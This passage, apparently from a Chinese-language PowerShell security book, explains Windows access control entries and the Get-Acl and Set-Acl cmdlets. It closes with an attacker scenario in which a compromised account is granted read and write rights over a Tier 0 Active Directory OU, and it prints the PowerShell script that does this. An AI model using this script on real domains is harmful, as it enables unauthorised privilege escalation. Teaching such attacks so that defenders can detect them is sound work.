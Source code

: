 ### 访问控制条目

一个 ACE 是一个访问条目，包含以下信息，用于指定谁可以访问哪个资源：

+   **受托人**：受托人通过其 SID 指定。

+   **访问掩码**：确定此 ACE 控制的具体访问权限。

+   ACE 类型指示标志。

+   一组位标志，控制从此 ACE 继承的子对象。

有六种类型的 ACE——其中三种类型适用于所有可保护对象，另外三种类型则特定于目录服务对象：

+   **访问拒绝 ACE**：所有可保护对象都支持。可以在 DACL 中使用，以拒绝对由此 ACE 指定的受托人的访问。

+   **访问允许 ACE**：所有可保护对象都支持。可以在 DACL 中使用，以允许对由此 ACE 指定的受托人的访问。

+   **系统审计 ACE**：所有可保护对象都支持。可以在 SACL 中使用，以审计受托人何时使用分配的权限。

+   **访问拒绝对象 ACE**：特定于目录服务对象。可以在 DACL 中使用，以禁止访问对象上的某个属性或属性集，或限制继承。

+   **Access-allowed object ACE**：特定于目录服务对象。可以在 DACL 中使用，用于授予对对象的属性或属性集的访问权限，或者限制继承。

+   **System-audit object ACE**：特定于目录服务对象。可以在 SACL 中使用，用于记录受托方访问对象的属性或属性集的尝试。

还可以使用 PowerShell 的**Get-Acl**和**Set-Acl** cmdlet 来管理 ACL：

+   **Get-Acl**: [`docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl`](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl )

+   **Set-Acl**: [`docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-acl`](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-acl )

例如，要访问用户账户对象的 ACL，可以使用**Get-ACL "AD:$((Get-ADUser testuser).distinguishedname)").access**命令。接下来，让我们探索 OU 的 ACL。

## OU ACLs

OU 是可以对 AD 对象进行分类的单位。根据配置，不同的账户或组可以拥有对某个 OU 的管理权限，并且可以对它们应用不同的 GPO。

如果 OU 访问权限配置错误，这为攻击者提供了许多可能性。AD 环境中的一个常见攻击向量是通过修改 OU 权限。

### 修改 OU 权限

通过修改 OU 的权限，攻击者可以控制其中的对象，包括用户和计算机账户，并可能在域内提升权限。

比如，假设一个攻击者已经访问了 AD，并希望授予自己对特定 OU 中的对象的读取和修改权限。假设攻击者事先控制了**PSSec\vvega**账户，因此他们使用该账户授予自己读取和修改对象的权限，攻击者可以通过访问 OU 的 ACL 来轻松完成此操作，以下是一个示例：

```
$TargetOU = "OU=Accounts,OU=Tier 0,DC=PSSec,DC=local"
$AttackerIdentity=[System.Security.Principal.NTAccount]'PSSec\vvega'
$Ou = [ADSI]"LDAP://$TargetOU"
$Sec = $Ou.psbase.ObjectSecurity
$Ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule ($AttackerIdentity, "ReadProperty, WriteProperty", "Allow")
$Sec.AddAccessRule($Ace)
$Ou.psbase.CommitChanges()
```
